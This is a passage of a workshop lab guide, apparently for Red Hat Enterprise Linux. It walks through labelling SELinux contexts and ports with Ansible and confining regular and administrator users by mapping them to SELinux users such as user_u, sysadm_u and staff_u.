* Webservers use the custom _/var/www_new/html_ path for web pages. SELinux labels have to be fixed for this directory and sub directories/files to reflect the default SELinux security labels for the _/var/www/html_ location. It is ensured by the following lines in the playbook:

    SELinux_file_contexts:
        - { target: '/var/www_new(/.*)?', setype: 'httpd_sys_content_t', ftype: 'a' }

* Once SELinux security labels are defined in the SELinux context database, these labels should be applied into extended attributes of selected files.  It is ensured by the following lines in the playbook:

    SELinux_restore_dirs:
        - /var/www_new

* All web servers are binded to the custom _tcp/7070_ port in our configuration. This setup needs to be reflected in a SELinux configuration. It is ensured by the following lines in the playbook:

    SELinux_ports:
        - { ports: '7070', proto: 'tcp', setype: 'http_port_t', state: 'present' }

. Now let's execute this _setup_selinux.yml_ Ansible playbook and apply these defined configurations for all servers.

    [root@selinux1 selinux_scripts]# ansible-playbook -i inventory -u root setup-selinux.yml

=== Lab 2.3.5 Viewing all SELinux configuration changes

. Now let's test and view all our recent SELinux configuration changes.

    [root@selinux1 selinux_scripts]# ssh selinux2
    [root@selinux2 ~]# semanage export
    [root@selinux2 ~]# exit

    [root@selinux1 selinux_scripts]# ssh selinux5
    [root@selinux5 ~]# semanage export
    [root@selinux5 ~]# exit

    [root@selinux1 selinux_scripts]# ssh selinux3
    [root@selinux3 ~]# semanage -o -
    [root@selinux3 ~]# exit

. Check the current SELinux status for all servers..

    [root@selinux1 selinux_scripts]# ansible all -i inventory -u root -a getenforce

. Check the functionality with enabled SELinux.

    [root@selinux1 selinux_scripts]# curl selinux2
    [root@selinux1 selinux_scripts]# curl selinux2:7070

    [root@selinux1 selinux_scripts]# curl selinux3
    [root@selinux1 selinux_scripts]# curl selinux3:7070

    [root@selinux1 selinux_scripts]# curl selinux5
    [root@selinux1 selinux_scripts]# curl selinux5:7070

== Revert script

This step is required for the next lab exercise.

Also, for those of you that want to re-do this lab exercise from the beginning, you can run this revert script. All the steps in the _Pre-Configured Set-Up_ steps section mentioned in the beginning of this lab will need to be executed , with the exception of the package installation steps.

    [root@selinux1 selinux_scripts]# hostname
    selinux1.example.com

    [root@selinux1 selinux_scripts]# pwd
    /root/selinux_scripts

    [root@selinux1 selinux_scripts]# cat inventory
    selinux2 ansible_python_interpreter=/usr/libexec/platform-python
    selinux3
    selinux5

    [root@selinux1 selinux_scripts]# ansible-playbook -i inventory -u root revert-all.yml

== Lab 2.4 How to set up a system with SELinux confined users

=== Goal of Lab 2.4
As an enterprise system administrator, I may want my systems to follow the US Department of Defense STIG security rule V-71971 so that my system will be fully confined without unconfined users.
I also would only want one administrator user who can become root and manage the system, and limit the access of other users.

This lab exercise is split into three steps:

. Confine regular Linux users
. Confine Linux root users
. Revert script

=== Introduction
In Red Hat Enterprise Linux, Linux users are mapped to the SELinux _unconfined_u_ user by default. All processes run by _unconfined_u_ are in the _unconfined_t_ domain. This means that users can access across the system within the limits of the standard Linux DAC policy. However, a number of confined SELinux users are available in Red Hat Enterprise Linux. This means that users can be restricted to limited set of capabilities. Each Linux user is mapped to an SELinux user using SELinux policy, allowing Linux users to inherit the restrictions placed on SELinux users.

=== Lab 2.4.1 Confine regular Linux users

. Make sure that the "revert script" from previous step was executed.

    [root@selinux1 selinux_scripts]# ansible-playbook -i inventory -u root revert-all.yml

. All actions are performed on the _selinux5_ host , which is a RHEL 7.5 system.

. If not already there, log into to the bastion host as *lab-user* from your desktop system *replacing GUID with your lab's GUID*. Use the password *r3dh4t1!*
+
[source]
[localhost ~]$ ssh lab-user@workstation-GUID.rhpds.opentlc.com

. Log into the _selinux1.example.com_ system as root.
+
[source]
[lab-user@workstation-GUID ~]# ssh root@selinux1.example.com
[root@selinux1 ~]# ssh root@selinux5.example.com

. Linux users can be assigned to SELinux users using semanage login tool. By default users are mapped to _unconfined_u_:

    [root@selinux5 ~]# semanage login -l

==== Lab 2.4.1.1 Change the default mapping

. In order to change mapping all Linux users we need to modify the record with __default__ which represents all users without explicit mapping.

_system_u_ is a special user used only for system processes and in the future will not be listed.

    [root@selinux5 ~]# semanage login -m -s user_u -r s0 __default__
    [root@selinux5 ~]# semanage login -l

==== Lab 2.4.1.2 Add a test user

. After this, when users (not root) logs in, their processes will run the _user_t_ domain. Every user session but root will run with _user_t_:

    [root@selinux5 ~]# adduser user42

    [root@selinux5 ~]# passwd user42
    (Feel free to pick whatever password you want for user42. But, be sure to pick a password you can remember.)

    [root@selinux5 ~]# ssh user42@localhost
    user42@localhost's password:
    [user42@selinux5 ~]$ id -Z
    user_u:user_r:user_t:s0

    [user42@selinux5 ~]$ ps axZ
    LABEL                     PID TTY    STAT  TIME COMMAND
    -                           1 ?      Ss    0:00 /usr/lib/systemd/systemd --switched-root --system --deserialize 21
    user_u:user_r:user_t:s0  2780 ?      S     0:00 sshd: user42@pts/1
    user_u:user_r:user_t:s0  2781 pts/1  Ss    0:00 -bash
    user_u:user_r:user_t:s0  2808 pts/1  R+    0:00 ps axZ

    # exit

. Now we can try if the user can become root.

. Let's add this line to the /etc/sudoers.d/administrators file:
user42  ALL=(ALL)       NOPASSWD: ALL

    [root@selinux5 ~]# visudo -f /etc/sudoers.d/administrators

. In the text editor, Press *i* to insert and copy and paste this line into the text editor:
+
  user42  ALL=(ALL)       NOPASSWD: ALL

. Next, press *esc* and then press *:wq!* to save and exit.
. Let's confirm our changes.

    [root@selinux5 ~]# grep user42 /etc/sudoers.d/administrators
    user42  ALL=(ALL)       NOPASSWD: ALL


    [root@selinux5 ~]# ssh user42@localhost
    user42@localhost's password:
    [user42@selinux5 ~]$ sudo -i
    sudo: PERM_SUDOERS: setresuid(-1, 1, -1): Operation not permitted
    sudo: no valid sudoers sources found, quitting
    sudo: setresuid() [0, 0, 0] -> [1001, -1, -1]: Operation not permitted
    sudo: unable to initialize policy plugin

. And the same attempt in permissive mode:

    [user42@selinux5 ~]$ exit
    [root@selinux5 ~]# id -Z
    unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

    [root@selinux5 ~]# setenforce 0
    [root@selinux5 ~]# ssh user42@localhost

    user42@localhost's password:
    [user42@selinux5 ~]$ sudo -i
    [root@selinux5 ~]# id
    uid=0(root) gid=0(root) groups=0(root) context=user_u:user_r:user_t:s0

    [root@selinux5 ~]# id -Z
    User_u:user_r:user_t:s0

    [root@selinux5 ~]# exit

    [user42@selinux5 ~]$ exit
    [root@selinux5 ~]# setenforce 1

Since SELinux denials are not enforced in permissive mode, _user42_ can become root but we can see that the context stayed _user_t_ and didn't change to _unconfined_t_.

=== Lab 2.4.2 Confined Administrator

. There are two basic methods for confining the administator user:

* Administrator can be directly mapped to _sysadm_u_ SELinux user so that when such user logs in, the session will be run with _sysadm_t_ domain. In this case you need to enable the _ssh_sysadm_login_ SELinux boolean in order to allow users assigned _sysadm_u_ to login using ssh.

    [root@selinux5 ~]# semanage user -m -R "sysadm_r secadm_r" sysadm_u
    [root@selinux5 ~]# adduser -G wheel -Z sysadm_u admin1

    [root@selinux5 ~]# passwd admin1
    (Feel free to pick whatever password you want for admin1. But, be sure to pick a password you can remember.)

    [root@selinux5 ~]# semanage login -l | grep admin
    admin1               sysadm_u             s0-s0:c0.c1023       *

    [root@selinux5 ~]# setsebool -P ssh_sysadm_login on
    [root@selinux5 ~]# ssh admin1@localhost

    [admin1@selinux5 ~]$ id -Z
    sysadm_u:sysadm_r:sysadm_t:s0-s0:c0.c1023

    [admin1@selinux5 ~]$ sudo -i
    [sudo] password for admin1:


    [root@selinux5 ~]# id -Z
    sysadm_u:sysadm_r:sysadm_t:s0-s0:c0.c1023

** Now we can try to perform admin's operation which can be executed only by admin SELinux users.

    [root@selinux5 ~]# systemctl restart sshd
    [root@selinux5 ~]# exit
    [admin1@selinux5 ~]# exit

* The other way is to assign u administer users to _staff_u_ and configure _sudo_ so that particular users can gain SELinux administrator role.

    [root@selinux5 ~]# adduser -G wheel -Z staff_u admin2

    [root@selinux5 ~]# passwd admin2
    (Feel free to pick whatever password you want for admin1. But, be sure to pick a password you can remember.)

    [root@selinux5 ~]# semanage login -l | grep admin
    admin1               sysadm_u             s0-s0:c0.c1023       *
    admin2               staff_u              s0-s0:c0.c1023       *


    [root@selinux5 ~]# ssh admin2@localhost
    [admin2@selinux5 ~]$ id -Z
    staff_u:staff_r:staff_t:s0-s0:c0.c1023

    [admin2@selinux5 ~]$ sudo -i
    [sudo] password for admin2:
    -bash: /root/.bash_profile: Permission denied
    -bash-4.2# id -Z
    staff_u:staff_r:staff_t:s0-s0:c0.c1023


. Now we can again try to perform administrator's operation which can be executed only by administrator SELinux users.

    -bash-4.2# systemctl restart sshd
    Failed to restart sshd.service: Access denied
    See system logs and 'systemctl status sshd.service' for details.
    -bash-4.2# exit
    [admin2@selinux5 ~]$ exit

. To allow admin2 user to gain SELinux administrator role you need to add the following rule to sudoers.

    [root@selinux5 ~]# visudo -f /etc/sudoers.d/administrators

. Append following line to end of file.  In the text editor, Press *o* then copy and paste these lines below into the text editor. Then, press *esc* and then press *:wq!* to save and exit.

    admin2  ALL=(ALL)  TYPE=sysadm_t ROLE=sysadm_r    ALL
    admin2  ALL=(ALL)  TYPE=secadm_t ROLE=secadm_r /usr/sbin/semanage,/usr/sbin/semodule

. Admin2 can gain administrator role using sudo now.

    [root@selinux5 ~]# ssh admin2@localhost
    [admin2@selinux5 ~]$ sudo -i
    [sudo] password for admin2:

    [root@selinux5 ~]# id -Z
    staff_u:sysadm_r:sysadm_t:s0-s0:c0.c1023

    [root@selinux5 ~]# systemctl restart sshd
    [root@selinux5 ~]#

    [root@selinux5 ~]# exit
    [admin2@selinux5 ~]# exit

== Revert script

There is a revert script to restore the default SELinux Users configuration. If you want to run this revert script, run it on the _selinux5_ host.

    [root@selinux5 ~]# hostname
    selinux5.example.com

    [root@selinux5 ~]# cd /root
    [root@selinux5 ~]# sh confined_users_revert.sh

<<top>>
link:README.adoc#table-of-contents[ Table of Contents ] | link:lab3_NBDE.adoc[Lab 3: NBDE]
